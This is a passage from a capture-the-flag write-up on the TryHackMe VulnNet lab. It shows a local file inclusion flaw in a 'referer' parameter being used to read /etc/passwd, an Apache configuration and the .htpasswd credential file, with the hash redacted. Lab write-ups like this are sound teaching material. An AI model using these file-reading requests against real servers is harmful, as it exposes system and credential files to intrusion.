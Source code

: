```js
n.p="http://vulnnet.thm/index.php?referer=",n(n.s=0)
```

In the `broadcast` subdomain, it'll prompt for a basic authentication, which is not useful at the moment:

However in the `referer` GET parameter, it appears to be vulnerable to `LFI`, or Local File Inclusion.

`http://vulnnet.thm/index.php?referer=/etc/passwd`

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet/images/a1.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet/images/a2.png)

Since the `broadcast` subdomain prompts a basic authentication, we can take a look at Apache configuration files to see any useful stuff for us.

`http://vulnnet.thm/index.php?referer=/etc/apache2/sites-enabled/000-default.conf`

```html
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName vulnnet.thm
	DocumentRoot /var/www/main
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/main>
		Order allow,deny
		allow from all
	</Directory>
</VirtualHost>

<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	ServerName broadcast.vulnnet.thm
	DocumentRoot /var/www/html
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	<Directory /var/www/html>
		Order allow,deny
		allow from all
		AuthType Basic
		AuthName "Restricted Content"
		AuthUserFile /etc/apache2/.htpasswd
		Require valid-user
	</Directory>
</VirtualHost>
```

Looks like the we can poke around with the `/etc/apache2/.htpasswd` file:

`http://vulnnet.thm/index.php?referer=/etc/apache2/.htpasswd`

`developers:[Redacted]`
